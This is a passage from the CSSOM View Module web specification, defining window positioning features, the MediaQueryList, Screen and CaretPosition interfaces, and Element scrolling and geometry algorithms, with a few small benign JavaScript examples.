  4. Optionally, move *target*’s window such that the window’s left edge is at the horizontal coordinate *x* relative to the left edge of the Web-exposed screen area, measured in `CSS pixels` of *target*. The positive axis is rightward.
6. If *tokenizedFeatures*["top"] exists:

  1. Set *y* to the result of invoking the rules for parsing integers on *tokenizedFeatures*["top"].
  2. If *y* is an error, set *y* to 0.
  3. Optionally, clamp *y* in a user-agent-defined manner so that the window does not move outside the Web-exposed available screen area.
  4. Optionally, move *target*’s window such that the window’s top edge is at the vertical coordinate *y* relative to the top edge of the Web-exposed screen area, measured in `CSS pixels` of *target*. The positive axis is downward.
7. If *tokenizedFeatures*["width"] exists:

  1. Set *width* to the result of invoking the rules for parsing integers on *tokenizedFeatures*["width"].
  2. If *width* is an error, set *width* to 0.
  3. If *width* is not 0:

    1. Optionally, clamp *width* in a user-agent-defined manner so that the window does not get too small or bigger than the Web-exposed available screen area.
    2. Optionally, size *target*’s window by moving its right edge such that the distance between the left and right edges of the viewport are *width* `CSS pixels` of *target*.
    3. Optionally, move *target*’s window in a user-agent-defined manner so that it does not grow outside the Web-exposed available screen area.
8. If *tokenizedFeatures*["height"] exists:

  1. Set *height* to the result of invoking the rules for parsing integers on *tokenizedFeatures*["height"].
  2. If *height* is an error, set *height* to 0.
  3. If *height* is not 0:

    1. Optionally, clamp *height* in a user-agent-defined manner so that the window does not get too small or bigger than the Web-exposed available screen area.
    2. Optionally, size *target*’s window by moving its bottom edge such that the distance between the top and bottom edges of the viewport are *height* `CSS pixels` of *target*.
    3. Optionally, move *target*’s window in a user-agent-defined manner so that it does not grow outside the Web-exposed available screen area.

A **supported `open()` feature name** is one of the following:

****width****

: The width of the viewport.

****height****

: The height of the viewport.

****left****

: The left position of the window.

****top****

: The top position of the window.

#### 4.2. The `MediaQueryList` Interface {#cssom-view-1:the-mediaquerylist-interface}

This section integrates with the event loop defined in HTML. [HTML]

A `MediaQueryList` object has an associated **media query list** and an associated **document** set on creation.

A `MediaQueryList` object has an associated **media** which is the serialized form of the associated media query list.

A `MediaQueryList` object has an associated **matches state** which is true if the associated media query list matches the state of the document, and false otherwise.

When asked to **evaluate media queries and report changes** for a `Document` *doc*, run these steps:

1. For each `MediaQueryList` object *target* that has *doc* as its document, in the order they were created, oldest first, run these substeps:

  1. If *target*’s matches state has changed since the last time these steps were run, fire an event named change at *target* using `MediaQueryListEvent`, with its `isTrusted` attribute initialized to true, its `media` attribute initialized to *target*’s media, and its `matches` attribute initialized to *target*’s matches state.

> **Example:** A simple piece of code that detects changes in the orientation of the viewport can be written as follows:
>
> ```
> function handleOrientationChange(event) {
>     if(event.matches) // landscape
>         …
>     else
>         …
> }
> var mql = matchMedia("(orientation:landscape)");
> mql.onchange = handleOrientationChange;
> ```

```webidl
[Exposed=Window]
interface MediaQueryList : EventTarget {
  readonly attribute CSSOMString media;
  readonly attribute boolean matches;
  undefined addListener(EventListener? callback);
  undefined removeListener(EventListener? callback);
           attribute EventHandler onchange;
};
```

The **`media`** attribute must return the associated media.

The **`matches`** attribute must return the associated matches state.

The **`addListener(callback)`** method, when invoked, must run these steps:

1. Add an event listener with this and an event listener whose type is `change`, and callback is *callback*.

The **`removeListener(callback)`** method, when invoked, must run these steps:

1. If this’s event listener list contains an event listener whose type is `change`, callback is *callback*, and capture is false, then remove an event listener with this and that event listener.

> **Note:** This specification initially had a custom callback mechanism with `addListener()` and `removeListener()`, and the callback was invoked with the associated media query list as argument. Now the normal event mechanism is used instead. For backwards compatibility, the `addListener()` and `removeListener()` methods are basically aliases for `addEventListener()` and `removeEventListener()`, respectively, and the `change` event masquerades as a `MediaQueryList`.

The following are the event handlers (and their corresponding event handler event types) that must be supported, as event handler IDL attributes, by all objects implementing the `MediaQueryList` interface:

| Event handler | Event handler event type |
| --- | --- |
| **`onchange`** | change |

```webidl
[Exposed=Window]
interface MediaQueryListEvent : Event {
  constructor(CSSOMString type, optional MediaQueryListEventInit eventInitDict = {});
  readonly attribute CSSOMString media;
  readonly attribute boolean matches;
};

dictionary MediaQueryListEventInit : EventInit {
  CSSOMString media = "";
  boolean matches = false;
};
```

The **`media`** attribute must return the value it was initialized to.

The **`matches`** attribute must return the value it was initialized to.

##### 4.2.1. Event summary {#cssom-view-1:mediaquerylist-event-summary}

*This section is non-normative.*

| Event | Interface | Interesting targets | Description |
| --- | --- | --- | --- |
| **`change`** | `MediaQueryListEvent` | `MediaQueryList` | Fired at the `MediaQueryList` when the matches state changes. |

#### 4.3. The `Screen` Interface {#cssom-view-1:the-screen-interface}

As its name suggests, the `Screen` interface represents information about the screen of the output device.

```webidl
[Exposed=Window]
interface Screen {
  readonly attribute long availWidth;
  readonly attribute long availHeight;
  readonly attribute long width;
  readonly attribute long height;
  readonly attribute unsigned long colorDepth;
  readonly attribute unsigned long pixelDepth;
};
```

The **`availWidth`** attribute must return the width of the Web-exposed available screen area.

The **`availHeight`** attribute must return the height of the Web-exposed available screen area.

The **`width`** attribute must return the width of the Web-exposed screen area.

The **`height`** attribute must return the height of the Web-exposed screen area.

The **`colorDepth`** and **`pixelDepth`** attributes should return the number of bits allocated to colors for a pixel in the output device, excluding the alpha channel. If the user agent is not able to return the number of bits used by the output device, it should return the closest estimation such as, for example, the number of bits used by the frame buffer sent to the display or any internal representation that would be the closest to the value the output device would use. The user agent must return a value for these attributes at least equal to the value of the `color` media feature multiplied by three. If the different color components are not represented with the same number of bits, the returned value may be greater than three times the value of the `color` media feature. If the user agent does not know the color depth or does not want to return it for privacy considerations, it should return 24.

> **Note:** The `colorDepth` and `pixelDepth` attributes return the same value for compatibility reasons.

> **Note:** Some non-conforming implementations are known to return 32 instead of 24.

### 5. Extensions to the `Document` Interface {#cssom-view-1:extensions-to-the-document-interface}

```webidl
partial interface Document {
  Element? elementFromPoint(double x, double y);
  sequence<Element> elementsFromPoint(double x, double y);
  CaretPosition? caretPositionFromPoint(double x, double y, optional CaretPositionFromPointOptions options = {});
  readonly attribute Element? scrollingElement;
};

dictionary CaretPositionFromPointOptions {
  sequence<ShadowRoot> shadowRoots = [];
};
```

The **`elementFromPoint(x, y)`** method must follow these steps:

1. If either argument is negative, *x* is greater than the viewport width excluding the size of a rendered scroll bar (if any), or *y* is greater than the viewport height excluding the size of a rendered scroll bar (if any), or there is no viewport associated with the document, return null and terminate these steps.
2. If there is a box in the viewport that would be a target for hit testing at coordinates *x*,*y*, when applying the transforms that apply to the descendants of the viewport, return the associated element and terminate these steps.
3. If the document has a root element, return the root element and terminate these steps.
4. Return null.

> **Note:** The `elementFromPoint()` method does not necessarily return the top-most painted element. For instance, an element can be excluded from being a target for hit testing by using the `pointer-events` CSS property.

The **`elementsFromPoint(x, y)`** method must follow these steps:

1. Let *sequence* be a new empty sequence.
2. If either argument is negative, *x* is greater than the viewport width excluding the size of a rendered scroll bar (if any), or *y* is greater than the viewport height excluding the size of a rendered scroll bar (if any), or there is no viewport associated with the document, return *sequence* and terminate these steps.
3. For each box in the viewport, in paint order, starting with the topmost box, that would be a target for hit testing at coordinates *x*,*y* even if nothing would be overlapping it, when applying the transforms that apply to the descendants of the viewport, append the associated element to *sequence*.
4. If the document has a root element, and the last item in *sequence* is not the root element, append the root element to *sequence*.
5. Return *sequence*.

The **`caretPositionFromPoint(x, y, options)`** method must return the result of running these steps:

1. If there is no viewport associated with the document, return null.
2. If either argument is negative, *x* is greater than the viewport width excluding the size of a rendered scroll bar (if any), *y* is greater than the viewport height excluding the size of a rendered scroll bar (if any) return null.
3. If at the coordinates *x*,*y* in the viewport no text insertion point indicator would have been inserted when applying the transforms that apply to the descendants of the viewport, return null.
4. If at the coordinates *x*,*y* in the viewport a text insertion point indicator would have been inserted in a text entry widget which is also a replaced element, when applying the transforms that apply to the descendants of the viewport, return a caret position with its properties set as follows:

   **caret node**

   : The node corresponding to the text entry widget.

   **caret offset**

   : The amount of 16-bit units to the left of where the text insertion point indicator would have inserted.
5. Otherwise:

  1. Let *caretPosition* be a tuple consisting of a *caretPositionNode* (a node) and a *caretPositionOffset* (a non-negative integer) for the position where the text insertion point indicator would have been inserted when applying the transforms that apply to the descendants of the viewport.
  2. Let *startNode* be the *caretPositionNode* of the *caretPosition*, and let *startOffset* be the *caretPositionOffset* of the *caretPosition*.
  3. While *startNode* is a node, *startNode*’s root is a shadow root, and *startNode*’s root is not a shadow-including inclusive ancestor of any of *options*["`shadowRoots`"], repeat these steps:

    1. Set *startOffset* to index of *startNode*’s root’s host.
    2. Set *startNode* to *startNode*’s root’s host’s parent.
  4. Return a caret position with its properties set as follows:

    1. caret node is set to *startNode*.
    2. caret offset is set to *startOffset*.

> **Note:** This caret position is not live.

> **Note:** The specifics of hit testing are out of scope of this specification and therefore the exact details of `elementFromPoint()` and `caretPositionFromPoint()` are therefore too. Hit testing will hopefully be defined in a future revision of CSS or HTML.

The **`scrollingElement`** attribute, on getting, must run these steps:

1. If the `Document` is in quirks mode, follow these substeps:

  1. If the `body` element exists, and it is not potentially scrollable in either axis, return the `body` element and abort these steps.

     For this purpose, a value of `overflow:clip` on the the `body` element’s parent element must be treated as `overflow:hidden`.
  2. Return null and abort these steps.
2. If there is a root element, return the root element and abort these steps.
3. Return null.

> **Note:** For non-conforming user agents that always use the quirks mode behavior for `scrollTop` and `scrollLeft`, the `scrollingElement` attribute is expected to also always return the `body` element (or null if it does not exist). This API exists so that Web developers can use it to get the right element to use for scrolling APIs, without making assumptions about a particular user agent’s behavior or having to invoke a scroll to see which element scrolls the viewport.

> **Note:** the `body` element is different from HTML’s `document.body` in that the latter can return a `frameset` element.

#### 5.1. The `CaretPosition` Interface {#cssom-view-1:the-caretposition-interface}

A **caret position** gives the position of a text insertion point indicator. It always has an associated **caret node** and **caret offset**. It is represented by a `CaretPosition` object.

```webidl
[Exposed=Window]
interface CaretPosition {
  readonly attribute Node offsetNode;
  readonly attribute unsigned long offset;
  [NewObject] DOMRect? getClientRect();
};
```

The **`offsetNode`** attribute must return the caret node.

The **`offset`** attribute must return the caret offset.

The **`getClientRect()`** method must follow these steps, aborting on the first step that returns a value:

1. If caret node is a text entry widget that is a replaced element, and that is in the document, return a scaled `DOMRect` object for the caret in the widget as represented by the caret offset value. The transforms that apply to the element and its ancestors are applied.
2. Otherwise:

  1. Let *caretRange* be a collapsed `Range` object whose start node and end node are set to caret node, and whose start offset and end offset are set to caret offset.
  2. Return the `DOMRect` object which is the result of invoking the `getBoundingClientRect()` method on *caretRange*.

> **Note:** This `DOMRect` object is not live.

### 6.  Extensions to the `Element` Interface {#cssom-view-1:extension-to-the-element-interface}

```webidl
enum ScrollLogicalPosition { "start", "center", "end", "nearest" };
dictionary ScrollIntoViewOptions : ScrollOptions {
  ScrollLogicalPosition block = "start";
  ScrollLogicalPosition inline = "nearest";
  ScrollIntoViewContainer container = "all";
};

enum ScrollIntoViewContainer { "all", "nearest" };

dictionary CheckVisibilityOptions {
    boolean checkOpacity = false;
    boolean checkVisibilityCSS = false;
    boolean contentVisibilityAuto = false;
    boolean opacityProperty = false;
    boolean visibilityProperty = false;
};

partial interface Element {
  DOMRectList getClientRects();
  [NewObject] DOMRect getBoundingClientRect();

  boolean checkVisibility(optional CheckVisibilityOptions options = {});

  Promise<ScrollResult> scrollIntoView(optional (boolean or ScrollIntoViewOptions) arg = {});
  Promise<ScrollResult> scroll(optional ScrollToOptions options = {});
  Promise<ScrollResult> scroll(unrestricted double x, unrestricted double y);
  Promise<ScrollResult> scrollTo(optional ScrollToOptions options = {});
  Promise<ScrollResult> scrollTo(unrestricted double x, unrestricted double y);
  Promise<ScrollResult> scrollBy(optional ScrollToOptions options = {});
  Promise<ScrollResult> scrollBy(unrestricted double x, unrestricted double y);
  attribute unrestricted double scrollTop;
  attribute unrestricted double scrollLeft;
  readonly attribute long scrollWidth;
  readonly attribute long scrollHeight;
  readonly attribute long clientTop;
  readonly attribute long clientLeft;
  readonly attribute long clientWidth;
  readonly attribute long clientHeight;
  readonly attribute double currentCSSZoom;
};
```

> **Note:** The `checkOpacity` and `checkVisibilityCSS` properties are historical names. These properties have aliases that match the new naming scheme, namely `opacityProperty` and `visibilityProperty`.

The **`getClientRects()`** method, when invoked, must return the result of the following algorithm:

1. If the element on which it was invoked does not have an associated box return an empty `DOMRectList` object and stop this algorithm.
2. If the element has an associated SVG layout box return a scaled `DOMRectList` object containing a single `DOMRect` object that describes the bounding box of the element as defined by the SVG specification, applying the transforms that apply to the element and its ancestors.
3. Return a `DOMRectList` object containing `DOMRect` objects in content order, one for each box fragment, describing its border area (including those with a height or width of zero) with the following constraints:

  - Apply the transforms that apply to the element and its ancestors.
  - If the element on which the method was invoked has a computed value for the `display` property of `table` or `inline-table` include both the table box and the caption box, if any, but not the anonymous container box.
  - Replace each anonymous block box with its child box(es) and repeat this until no anonymous block boxes are left in the final list.

> **Note:** The `DOMRect` objects returned by `getClientRects()` are not live.

The **`getBoundingClientRect()`** method, when invoked on an element *element*, must return the result of getting the bounding box for *element*.

To **get the bounding box** for *element*, run the following steps:

1. Let *list* be the result of invoking `getClientRects()` on *element*.
2. If the *list* is empty return a `DOMRect` object whose `x`, `y`, `width` and `height` members are zero.
3. If all rectangles in *list* have zero width or height, return the first rectangle in *list*.
4. Otherwise, return a `DOMRect` object describing the smallest rectangle that includes all of the rectangles in *list* of which the height or width is not zero.

> **Note:** The `DOMRect` object returned by `getBoundingClientRect()` is not live.

> **Example:** The following snippet gets the dimensions of the first `div` element in a document:
>
> ```
> var example = document.getElementsByTagName("div")[0].getBoundingClientRect();
> var exampleWidth = example.width;
> var exampleHeight = example.height;
> ```

Note: The `checkVisibility()` method provides a set of simple checks for whether an element is potentially "visible". It defaults to a very simple and straightforward method based on the box tree, but allows for several additional checks to be opted into, depending on what precise notion of "visibility" is desired.

The **`checkVisibility(options)`** method must run these steps, when called on an element *this*:

1. If *this* does not have an associated box, return false.
2. If an ancestor of *this* in the flat tree has `content-visibility: hidden`, return false.
3. If either the `opacityProperty` or the `checkOpacity` dictionary members of *options* are true, and *this*, or an ancestor of *this* in the flat tree, has a computed `opacity` value of `0`, return false.
4. If either the `visibilityProperty` or the `checkVisibilityCSS` dictionary members of *options* are true, and *this* is invisible, return false.
5. If the `contentVisibilityAuto` dictionary member of *options* is true and an ancestor of *this* in the flat tree skips its contents due to `content-visibility: auto`, return false.
6. Return true.

The **`scrollIntoView(arg)`** method must run these steps:

1. Let *behavior* be "`auto`".
2. Let *block* be "`start`".
3. Let *inline* be "`nearest`".
4. Let *container* be `null`.
5. If *arg* is a `ScrollIntoViewOptions` dictionary, then:

  1. Set *behavior* to the `behavior` dictionary member of *options*.
  2. Set *block* to the `block` dictionary member of *options*.
  3. Set *inline* to the `inline` dictionary member of *options*.
  4. If the `container` dictionary member of *options* is "`nearest`", set *container* to the element.
6. Otherwise, if *arg* is false, then set *block* to "`end`".
7. If the element does not have any associated box, or is not available to user-agent features, then return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
8. Scroll the element into view with *behavior*, *block*, *inline*, and *container*. Let *scrollPromise* be the `Promise` returned from this step
9. Optionally perform some other action that brings the element to the user’s attention.
10. Return *scrollPromise*.

> **Example:** A component can use scrollIntoView to scroll content of interest into the specified alignment:
>
> ```
> <style>
>     .scroller { overflow: auto; scroll-padding: 8px; }
>     .slide { scroll-margin: 16px; scroll-snap-align: center; }
> </style>
> <div class="carousel">
>     <div class="slides scroller">
>         <div id="s1" class="slide">
>         <div id="s2" class="slide">
>         <div id="s3" class="slide">
>     </div>
>     <div class="markers">
>         <button data-target="s1">1</button>
>         <button data-target="s2">2</button>
>         <button data-target="s3">3</button>
>     </div>
> </div>
> <script>
>     document.querySelector('.markers').addEventListener('click', (evt) => {
>         const target = document.getElementById(evt.target.dataset.target);
>         if (!target) return;
>         // scrollIntoView correctly aligns target item respecting scroll-snap-align,
>         // scroll-margin, and the scroll container's scroll-padding.
>         target.scrollIntoView({
>             // Only scroll the nearest scroll container.
>             container: 'nearest',
>             behavior: 'smooth'
>         });
>     });
> </script>
> ```

The **`scroll()`** method must run these steps:

1. If invoked with one argument, follow these substeps:

  1. Let *options* be the argument.
  2. Normalize non-finite values for `left` and `top` dictionary members of *options*, if present.
  3. Let *x* be the value of the `left` dictionary member of *options*, if present, or the element’s current scroll position on the x axis otherwise.
  4. Let *y* be the value of the `top` dictionary member of *options*, if present, or the element’s current scroll position on the y axis otherwise.
2. If invoked with two arguments, follow these substeps:

  1. Let *options* be null converted to a `ScrollToOptions` dictionary. [WEBIDL]
  2. Let *x* and *y* be the arguments, respectively.
  3. Normalize non-finite values for *x* and *y*.
  4. Let the `left` dictionary member of *options* have the value *x*.
  5. Let the `top` dictionary member of *options* have the value *y*.
3. Let *document* be the element’s node document.
4. If *document* is not the active document, return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
5. Let *window* be the value of *document*’s `defaultView` attribute.
6. If *window* is null, return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
7. If the element is the root element and *document* is in quirks mode, return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
8. If the element is the root element, return the `Promise` returned by `scroll()` on *window* after the method is invoked with `scrollX` on *window* as first argument and *y* as second argument, and abort the remaining steps.
9. If the element is the `body` element, *document* is in quirks mode, and the element is not potentially scrollable in either axis, return the `Promise` returned by `scroll()` on *window* after the method is invoked with *options* as the only argument, and abort the remaining steps.
10. If the element does not have any associated box, the element has no associated scrolling box, or the element has no overflow, return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
11. Scroll the element to *x*,*y*, with the scroll behavior being the value of the `behavior` dictionary member of *options*. Let *scrollPromise* be the `Promise` returned from this step.
12. Return *scrollPromise*.

When the **`scrollTo()`** method is invoked, the user agent must act as if the `scroll()` method was invoked with the same arguments.

When the **`scrollBy()`** method is invoked, the user agent must run these steps:

1. If invoked with one argument, follow these substeps:

  1. Let *options* be the argument.
  2. Normalize non-finite values for `left` and `top` dictionary members of *options*, if present.
2. If invoked with two arguments, follow these substeps:

  1. Let *options* be null converted to a `ScrollToOptions` dictionary. [WEBIDL]
  2. Let *x* and *y* be the arguments, respectively.
  3. Normalize non-finite values for *x* and *y*.
  4. Let the `left` dictionary member of *options* have the value *x*.
  5. Let the `top` dictionary member of *options* have the value *y*.
3. Add the value of `scrollLeft` to the `left` dictionary member.
4. Add the value of `scrollTop` to the `top` dictionary member.
5. Return the `Promise` returned by `scroll()` after the method is invoked with *options* as the only argument.

The **`scrollTop`** attribute, on getting, must return the result of running these steps:

1. Let *document* be the element’s node document.
2. If *document* is not the active document, return zero and terminate these steps.
3. Let *window* be the value of *document*’s `defaultView` attribute.
4. If *window* is null, return zero and terminate these steps.
5. If the element is the root element and *document* is in quirks mode, return zero and terminate these steps.
6. If the element is the root element return the value of `scrollY` on *window*.
7. If the element is the `body` element, *document* is in quirks mode, and the element is not potentially scrollable in at least one axis, return the value of `scrollY` on *window*.
8. If the element does not have any associated box, return zero and terminate these steps.
9. Return the y-coordinate of the scrolling area at the alignment point with the top of the padding edge of the element.

When setting the `scrollTop` attribute these steps must be run:

1. Let *y* be the given value.
2. Normalize non-finite values for *y*.
3. Let *document* be the element’s node document.
4. If *document* is not the active document, terminate these steps.
5. Let *window* be the value of *document*’s `defaultView` attribute.
6. If *window* is null, terminate these steps.
7. If the element is the root element and *document* is in quirks mode, terminate these steps.
8. If the element is the root element invoke `scroll()` on *window* with `scrollX` on *window* as first argument and *y* as second argument, and terminate these steps.
9. If the element is the `body` element, *document* is in quirks mode, and the element is not potentially scrollable in at least one axis, invoke `scroll()` on *window* with `scrollX` as first argument and *y* as second argument, and terminate these steps.
10. If the element does not have any associated box, the element has no associated scrolling box, or the element has no overflow, terminate these steps.
11. Scroll the element to `scrollLeft`,*y*, with the scroll behavior being "`auto`".

The **`scrollLeft`** attribute, on getting, must return the result of running these steps:

1. Let *document* be the element’s node document.
2. If *document* is not the active document, return zero and terminate these steps.
3. Let *window* be the value of *document*’s `defaultView` attribute.
4. If *window* is null, return zero and terminate these steps.
5. If the element is the root element and *document* is in quirks mode, return zero and terminate these steps.
6. If the element is the root element return the value of `scrollX` on *window*.
7. If the element is the `body` element, *document* is in quirks mode, and the element is not potentially scrollable in at least one axis, return the value of `scrollX` on *window*.
8. If the element does not have any associated box, return zero and terminate these steps.
9. Return the x-coordinate of the scrolling area at the alignment point with the left of the padding edge of the element.

When setting the `scrollLeft` attribute these steps must be run:

1. Let *x* be the given value.
2. Normalize non-finite values for *x*.
3. Let *document* be the element’s node document.
4. If *document* is not the active document, terminate these steps.
5. Let *window* be the value of *document*’s `defaultView` attribute.
6. If *window* is null, terminate these steps.
7. If the element is the root element and *document* is in quirks mode, terminate these steps.
8. If the element is the root element invoke `scroll()` on *window* with *x* as first argument and `scrollY` on *window* as second argument, and terminate these steps.
9. If the element is the `body` element, *document* is in quirks mode, and the element is not potentially scrollable in at least one axis, invoke `scroll()` on *window* with *x* as first argument and `scrollY` on *window* as second argument, and terminate these steps.
10. If the element does not have any associated box, the element has no associated scrolling box, or the element has no overflow, terminate these steps.
11. Scroll the element to *x*,`scrollTop`, with the scroll behavior being "`auto`".

The **`scrollWidth`** attribute must return the result of running these steps:

1. Let *document* be the element’s node document.
2. If *document* is not the active document, return zero and terminate these steps.
3. Let *viewport width* be the width of the viewport excluding the width of the scroll bar, if any, or zero if there is no viewport.
4. If the element is the root element and *document* is not in quirks mode return max(viewport scrolling area width, *viewport width*).
5. If the element is the `body` element, *document* is in quirks mode and the element is not potentially scrollable in the x axis, return max(viewport scrolling area width, *viewport width*).
6. If the element does not have any associated box return zero and terminate these steps.
7. Return the width of the element’s scrolling area.

The **`scrollHeight`** attribute must return the result of running these steps:

1. Let *document* be the element’s node document.
2. If *document* is not the active document, return zero and terminate these steps.
3. Let *viewport height* be the height of the viewport excluding the height of the scroll bar, if any, or zero if there is no viewport.
4. If the element is the root element and *document* is not in quirks mode return max(viewport scrolling area height, *viewport height*).
5. If the element is the `body` element, *document* is in quirks mode and the element is not potentially scrollable in the y axis, return max(viewport scrolling area height, *viewport height*).
6. If the element does not have any associated box return zero and terminate these steps.
7. Return the height of the element’s scrolling area.

The **`clientTop`** attribute must run these steps:

1. If the element has no associated box or if the box is inline, return zero.
2. Return the unscaled computed value of the `border-top-width` property plus the height of any scrollbar rendered between the top padding edge and the top border edge, ignoring any transforms that apply to the element and its ancestors.

The **`clientLeft`** attribute must run these steps:

1. If the element has no associated box or if the box is inline, return zero.
2. Return the unscaled computed value of the `border-left-width` property plus the width of any scrollbar rendered between the left padding edge and the left border edge, ignoring any transforms that apply to the element and its ancestors.

The **`clientWidth`** attribute must run these steps:

1. If the element has no associated box or if the box is inline, return zero.
2. If the element is the root element and the element’s node document is not in quirks mode, or if the element is the `body` element and the element’s node document *is* in quirks mode, return the viewport width excluding the size of a rendered scroll bar (if any).
3. Return the unscaled width of the padding edge excluding the width of any rendered scrollbar between the padding edge and the border edge, ignoring any transforms or that apply to the element and its ancestors.

The **`clientHeight`** attribute must run these steps:

1. If the element has no associated box or if the box is inline, return zero.
2. If the element is the root element and the element’s node document is not in quirks mode, or if the element is the `body` element and the element’s node document *is* in quirks mode, return the viewport height excluding the size of a rendered scroll bar (if any).
3. Return the unscaled height of the padding edge excluding the height of any rendered scrollbar between the padding edge and the border edge, ignoring any transforms that apply to the element and its ancestors.

The **`currentCSSZoom`** attribute must return the effective zoom of the element, or 1.0 if the element isn’t being rendered.

#### 6.1. `Element` Scrolling Members {#cssom-view-1:element-scrolling-members}

To **determine the scroll-into-view position** of a *target*, which is an Element, pseudo-element, or Range, with a scroll behavior *behavior*, a block flow direction position *block*, an inline base direction position *inline*, and a scrolling box *scrolling box*, run the following steps:

1. Let *target bounding border box* be the box represented by the return value of invoking Element’s `getBoundingClientRect()`, if *target* is an Element, or Range’s `getBoundingClientRect()`, if *target* is a Range.
2. Let *scrolling box edge A* be the beginning edge in the block flow direction of *scrolling box*, and let *element edge A* be *target bounding border box*’s edge on the same physical side as that of *scrolling box edge A*.
3. Let *scrolling box edge B* be the ending edge in the block flow direction of *scrolling box*, and let *element edge B* be *target bounding border box*’s edge on the same physical side as that of *scrolling box edge B*.
4. Let *scrolling box edge C* be the beginning edge in the inline base direction of *scrolling box*, and let *element edge C* be *target bounding border box*’s edge on the same physical side as that of *scrolling box edge C*.
5. Let *scrolling box edge D* be the ending edge in the inline base direction of *scrolling box*, and let *element edge D* be *target bounding border box*’s edge on the same physical side as that of *scrolling box edge D*.
6. Let *element height* be the distance between *element edge A* and *element edge B*.
7. Let *scrolling box height* be the distance between *scrolling box edge A* and *scrolling box edge B*.
8. Let *element width* be the distance between *element edge C* and *element edge D*.
9. Let *scrolling box width* be the distance between *scrolling box edge C* and *scrolling box edge D*.
10. Let *position* be the scroll position *scrolling box* would have by following these steps:

  1. If *block* is "`start`", then align *element edge A* with *scrolling box edge A*.
  2. Otherwise, if *block* is "`end`", then align *element edge B* with *scrolling box edge B*.
  3. Otherwise, if *block* is "`center`", then align the center of *target bounding border box* with the center of *scrolling box* in *scrolling box*’s block flow direction.
  4. Otherwise, *block* is "`nearest`":

     **If *element edge A* and *element edge B* are both outside *scrolling box edge A* and *scrolling box edge B***

     : Do nothing.

     **If *element edge A* is outside *scrolling box edge A* and *element height* is less than *scrolling box height* If *element edge B* is outside *scrolling box edge B* and *element height* is greater than *scrolling box height***

     : Align *element edge A* with *scrolling box edge A*.

     **If *element edge A* is outside *scrolling box edge A* and *element height* is greater than *scrolling box height* If *element edge B* is outside *scrolling box edge B* and *element height* is less than *scrolling box height***

     : Align *element edge B* with *scrolling box edge B*.
  5. If *inline* is "`start`", then align *element edge C* with *scrolling box edge C*.
  6. Otherwise, if *inline* is "`end`", then align *element edge D* with *scrolling box edge D*.
  7. Otherwise, if *inline* is "`center`", then align the center of *target bounding border box* with the center of *scrolling box* in *scrolling box*’s inline base direction.
  8. Otherwise, *inline* is "`nearest`":

     **If *element edge C* and *element edge D* are both outside *scrolling box edge C* and *scrolling box edge D***

     : Do nothing.

     **If *element edge C* is outside *scrolling box edge C* and *element width* is less than *scrolling box width* If *element edge D* is outside *scrolling box edge D* and *element width* is greater than *scrolling box width***

     : Align *element edge C* with *scrolling box edge C*.

     **If *element edge C* is outside *scrolling box edge C* and *element width* is greater than *scrolling box width* If *element edge D* is outside *scrolling box edge D* and *element width* is less than *scrolling box width***

     : Align *element edge D* with *scrolling box edge D*.
  9. If *target* is an Element, and the target element defines some scroll snap positions, then the user agent must scroll snap the resulting *position* to one of that element’s scroll snap positions if its nearest scroll container is a scroll snap container. The user agent *may* also do this even when the scroll container has `scroll-snap-type: none`.
  10. Return *position*.

To **scroll a target into view** *target*, which is an Element, pseudo-element, or Range, with a scroll behavior *behavior*, a block flow direction position *block*, an inline base direction position *inline*, and an optional containing Element to stop scrolling after reaching *container*, means to run these steps:

1. Let *ancestorPromises* be an empty set of `Promise`s.
2. For each ancestor element or viewport that establishes a scrolling box *scrolling box*, in order of innermost to outermost scrolling box, run these substeps:

  1. If the `Document` associated with *target* is not same origin with the `Document` associated with the element or viewport associated with *scrolling box*, abort any remaining iteration of this loop.
  2. Let *position* be the scroll position resulting from running the steps to determine the scroll-into-view position of *target* with *behavior* as the *scroll behavior*, *block* as the *block flow position*, *inline* as the *inline base direction position* and *scrolling box* as the *scrolling box*.
  3. If *position* is not the same as *scrolling box*’s current scroll position, or *scrolling box* has an ongoing smooth scroll,

    1. **If *scrolling box* is associated with an element**

       : Perform a scroll of the element’s *scrolling box* to *position*, with the element as the associated element and *behavior* as the scroll behavior. Add the `Promise` retured from this step to the set *ancestorPromises*.

       **If *scrolling box* is associated with a viewport**

       : 1. Let *document* be the viewport’s associated `Document`.
  2. Let *root element* be *document*’s root element, if there is one, or null otherwise.
  3. Perform a scroll of the viewport to *position*, with *root element* as the associated element and *behavior* as the scroll behavior. Add the `Promise` retured from this step in the set *ancestorPromises*.
  4. If *container* is not null and either *scrolling box* is a shadow-including inclusive ancestor of *container* or is a viewport whose document is a shadow-including inclusive ancestor of *container*, abort any remaining iteration of this loop.
3. Let *scrollPromise* be a new `Promise`.
4. Return *scrollPromise*, and run the remaining steps in parallel.
5. Wait until all `Promise`s in *ancestorPromises* have settled.
6. If all `Promise`s in *ancestorPromises* were resolved with a non-interrupted scroll result, resolve *scrollPromise* with a non-interrupted scroll result.
7. Otherwise, resolve *scrollPromise* with an interrupted scroll result.

To **scroll an element** (or pseudo-element) *element* to *x*,*y* optionally with a scroll behavior *behavior* (which is "`auto`" if omitted) means to:

1. Let *box* be *element*’s associated scrolling box.
2. **If *box* has rightward overflow direction**

   : Let *x* be max(0, min(*x*, *element* scrolling area width - *element* padding edge width)).

   **If *box* has leftward overflow direction**

   : Let *x* be min(0, max(*x*, *element* padding edge width - *element* scrolling area width)).
3. **If *box* has downward overflow direction**

   : Let *y* be max(0, min(*y*, *element* scrolling area height - *element* padding edge height)).

   **If *box* has upward overflow direction**

   : Let *y* be min(0, max(*y*, *element* padding edge height - *element* scrolling area height)).
4. Let *position* be the scroll position *box* would have by aligning scrolling area x-coordinate *x* with the left of *box* and aligning scrolling area y-coordinate *y* with the top of *box*.
5. If *position* is the same as *box*’s current scroll position, and *box* does not have an ongoing smooth scroll, return a promise resolved with a non-interrupted scroll result and abort the remaining steps.
6. Perform a scroll of *box* to *position*, *element* as the associated element and *behavior* as the scroll behavior. Let *scrollPromise* be the `Promise` returned from this step.
7. Return *scrollPromise*.

### 7. Extensions to the `HTMLElement` Interface {#cssom-view-1:extensions-to-the-htmlelement-interface}

```webidl
partial interface HTMLElement {
  readonly attribute Element? scrollParent;
  readonly attribute Element? offsetParent;
  readonly attribute long offsetTop;
  readonly attribute long offsetLeft;
  readonly attribute long offsetWidth;
  readonly attribute long offsetHeight;
};
```

